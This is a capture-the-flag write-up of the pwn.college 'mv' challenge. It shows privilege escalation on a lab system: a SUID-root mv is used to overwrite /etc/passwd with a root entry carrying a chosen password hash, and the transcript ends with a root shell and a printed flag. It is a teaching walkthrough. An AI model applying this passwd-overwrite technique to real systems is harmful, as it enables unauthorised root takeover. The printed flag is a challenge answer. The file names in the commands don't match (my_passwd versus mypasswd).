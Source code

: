 # Challenge Name: mv
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Beginner  
**Date**: 2025-07-16  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/mv`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/mv
```

Output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/mv
```

- The `s` in `-rws` indicates it's a SUID binary.
- `mv` runs with **root privileges**.

## 🚀 Exploitation

The `mv` command in Linux is used to move or rename files and directories.

But even after moving a root required file , it wont release it's restriction.
for this challenge the trick lies within /etc/passwd 's root:x:0:0:root:/root:/bin/bash entry , when we move a content filled file to other content filled file the data is overwrited , so we can simple edit the password section of root:/bin/bash without out own using mv command.

How? , Lets see :

```bash
openssl passwd -6 himanshu
```
helps us to generate SHA-512 password, this is what we need to overwrite in /etc/passwd.

the above command will give us key: 
```
$6$Li9Qnq0.BAXNaFIh$IYorgsG4l3v0XzC2X0ls47SwRnPOZpxbi0Cyznsghg7QRFvpTC/08PqGi.cNczupsJFVhxFenavghFRvA2wx3/
```

this need to be crafted with : root:x:0:0:root:/root:/bin/bash

which results in : 

```
root:$6$Li9Qnq0.BAXNaFIh$IYorgsG4l3v0XzC2X0ls47SwRnPOZpxbi0Cyznsghg7QRFvpTC/08PqGi.cNczupsJFVhxFenavghFRvA2wx3/:0:0:root:/root:/bin/bash
```

```bash
cat > my_passwd
root:$6$Li9Qnq0.BAXNaFIh$IYorgsG4l3v0XzC2X0ls47SwRnPOZpxbi0Cyznsghg7QRFvpTC/08PqGi.cNczupsJFVhxFenavghFRvA2wx3/:0:0:root:/root:/bin/bash
^C
mv mypasswd /etc/passwd
su
password: himanshu
```

Output:
```
root@program-misuse~mv:/home/hacker# cat /flag
pwn.college{QAAvzCHieOeQPr6bHT2GvMIZVmd.dJDOxwSM0IzMyEzW}
```
